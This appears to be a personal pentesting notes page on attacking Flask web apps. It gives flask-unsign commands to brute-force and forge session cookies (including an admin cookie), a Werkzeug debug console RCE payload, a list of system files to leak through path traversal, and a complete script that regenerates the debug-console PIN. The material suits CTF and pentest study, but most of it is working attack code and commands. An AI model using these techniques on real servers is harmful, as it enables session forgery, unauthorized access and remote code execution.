 ```yaml
---
title: 'Notes | Web | Flask'
author: Stillwolfing
date: 2024-01-27
categories: ['Notes', 'Web']
tags: ['Notes', 'Web']
permalink: /Notes/Web/flask
---
```


## Cookies

Default cookie session name is "session".

## Flask-unsign

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

To install it:

```bash
pip3 install flask-unsign
```

### Decode cookie

```bash
flask-unsign --decode --cookie '<cookie>'
```

### Brute force secret

```bash
flask-unsign --unsign --wordlist <wordlist>  --cookie '<cookie>' --no-literal-eval
```

### Sign cookie

```bash
flask-unsign --sign --cookie "{'admin': 'true', 'username': 'admin' }" --secret 'CHANGEME'
```


## Werkzeug

Flask is implemented on Werkzeug and Jinja2.

Werkzeug is a collection of libraries that can be used to create a WSGI (Web Server Gateway Interface) compatible web application in Python. A WSGI (Web Server Gateway Interface) server is necessary for Python web applications since a web server cannot communicate directly with Python.

### Console RCE

If debug is active you could try to access to /console and gain RCE.

```python
__import__('os').popen('whoami').read();
```

In some occasions the /console endpoint is going to be protected by a pin. If you have a file traversal vulnerability, you can leak all the necessary info to generate that pin.

Looking at "python3.5/site-packages/werkzeug/debug/__init__.py", we can find out how the PIN is generated.

```python
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

You will need these information:

probably_public_bits
* username: user that started the Flask app. Maybe you can guess looking at "/proc/self/environ"
* modname: is flask.app
* getattr(app, '__name__', getattr(app.__class__, '__name__')): is Flask
* getattr(mod, '__file__', None): absolute path of "app.py". Exemple: "/usr/local/lib/python3.5/dist-packages/flask/app.py". Use the file traversal vulnerability to confirm your path is correct.

private_bits
* uuid.getnode(): MAC address of the current computer. To find it, search which network interface is used to serve the app. You can leak it from "/proc/net/arp". (Exemple: eth0).
Then leak the MAC address from "/sys/class/net/\<device id\>/address". You now have to convert from hexadecimal to decimal. Exemple: 56:00:02:7a:23:ac -> print(0x5600027a23ac) -> 94558041547692.
* concatenate the values in "/etc/machine-id" (or "/proc/sys/kernel/random/boot_id" if "/etc/machine-id" does not exist) with the value after the last "/" of the first line of "/proc/self/cgroup". 

Then enter the values in this beautiful code and run it to get the PIN (credits to Hacktricks and [BatBato](https://nouman404.github.io)):
```python
#Made with <3 by BatBato
import hashlib
import itertools
from itertools import chain

def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.sha1()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
    probably_public_bits = [
            username,
            modname,
            appname,
            flaskapp_path ]
    private_bits = [
            node_uuid,
            machine_id ]
    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num
    print(rv)


if __name__ == '__main__':
    usernames = ['web-app'] # username   /proc/self/environ
    modnames = ['flask.app']
    appnames = ['Flask']
    flaskpaths = ['/home/web-app/.local/lib/python3.11/site-packages/flask/app.py']
    nodeuuids = ['2485377892359']# str(uuid.getnode()),  /proc/net/arp => get device name (ex:eth0) =>/sys/class/net/<device id>/address (ex:56:00:02:7a:23:ac) => print(0x5600027a23ac)
    machineids = ['ef4b22e3-e1ed-44b6-a2a3-a2daf63f4019user.slice']# get_machine_id(), /etc/machine-id or /proc/sys/kernel/random/boot_id and the value after the last "/" of the first line of "/proc/self/cgroup".

    # Generate all possible combinations of values
    combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)

    # Iterate over the combinations and call the crack() function for each one
    for combo in combinations:
        username, modname, appname, flaskpath, nodeuuid, machineid = combo
        print('==========================================================================')
        crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
        print(f'{combo}')
        print('==========================================================================')

```




